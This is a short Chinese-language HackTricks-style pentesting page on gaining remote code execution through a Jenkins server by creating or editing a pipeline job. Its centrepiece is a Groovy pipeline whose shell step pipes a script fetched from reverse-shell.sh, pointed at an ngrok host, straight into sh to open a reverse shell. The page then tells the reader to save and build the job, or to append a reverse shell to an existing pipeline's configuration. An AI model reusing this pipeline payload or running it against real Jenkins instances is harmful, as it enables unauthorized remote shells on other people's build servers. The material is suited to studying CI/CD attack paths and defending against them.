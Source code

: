 # Jenkins RCE 创建/修改管道

{{#include ../../banners/hacktricks-training.md}}

## 创建新管道

在“新项目”（可在 `/view/all/newJob` 访问）中选择 **Pipeline:**

![](<../../images/image (235).png>)

在 **Pipeline 部分** 中写入 **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
最后点击 **Save**，然后 **Build Now**，管道将被执行：

![](<../../images/image (228).png>)

## 修改管道

如果您可以访问某个已配置管道的配置文件，您可以直接 **修改它，附加您的反向 shell**，然后执行它或等待它被执行。

{{#include ../../banners/hacktricks-training.md}}
